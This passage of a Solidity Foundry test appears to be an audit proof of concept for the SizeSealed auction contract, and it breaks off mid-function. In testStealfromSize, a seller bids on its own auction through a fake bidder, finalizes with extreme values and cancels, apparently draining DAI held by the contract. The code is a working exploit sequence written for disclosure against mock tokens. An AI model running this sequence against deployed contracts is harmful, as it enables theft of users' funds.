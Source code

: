 ```solidity
    uint32 startTime;
    uint32 endTime;
    uint32 unlockTime;
    uint32 unlockEnd;
    uint128 cliffPercent;

    uint128 baseToSell;

    uint256 reserveQuotePerBase = 1e18 * uint256(type(uint128).max) / 1e18;
    uint128 minimumBidQuote = 1;

    function setUp() public {
        // Create quote and bid tokens
        quoteToken = new MockERC20("Dai Stablecoin", "DAI", 18);

        baseToken = new MockERC20("Wrapped Ether", "WETH", 18);

        // Init auction contract
        auction = new SizeSealed();

        // Create seller
        seller = new MockSeller(address(auction), quoteToken, baseToken);

        // Create bidders
        bidder = new MockBuyer(address(auction), quoteToken, baseToken);
        bidder1 = new MockBuyer(address(auction), quoteToken, baseToken);
        seller_as_fake_bidder = new MockBuyer(address(auction), quoteToken, baseToken);

        startTime = uint32(block.timestamp);
        endTime = uint32(block.timestamp) + 60;
        unlockTime = uint32(block.timestamp) + 100;
        unlockEnd = uint32(block.timestamp) + 1000;
        cliffPercent = 0;

        baseToSell = 10000 ether;
        vm.label(address(bidder), "Bidder 1");
        
        vm.label(address(quoteToken), "Quote Token1");
        vm.label(address(baseToken), "Base Token");
    }

    function testStealfromSize() public {
        quoteToken.mint(address(auction), 10000 ether); // mint 10000 DAI to auction, to demonstrate that the auction initially containts DAI.
        (uint256 beforeFinalizeQuote, uint256 beforeFinalizeBase) = seller.balances();
        (uint256 beforeFinalizefakebidderQuote, uint256 beforeFinalizefakebidderBase) = seller_as_fake_bidder.balances();
        uint256 beforeauctionQuote = quoteToken.balanceOf(address(auction));
        uint256 beforeauctionBase = baseToken.balanceOf(address(auction));
        uint256 aid = seller.createAuction(
            baseToSell, reserveQuotePerBase, minimumBidQuote, startTime, endTime, unlockTime, unlockEnd, cliffPercent
        );
        seller_as_fake_bidder.setAuctionId(aid);
        seller_as_fake_bidder.bidOnAuctionWithSalt(baseToSell, baseToSell, "hello"); // want to buy 
        vm.warp(endTime + 1);
        uint256[] memory bidIndices = new uint[](1);
        bidIndices[0] = 0;
        seller.finalize(bidIndices, type(uint128).max ,type(uint128).max);
        seller.cancelAuction(); 
        (uint256 afterFinalizeQuote, uint256 afterFinalizeBase) = seller.balances();
        seller_as_fake_bidder.cancel(0);
```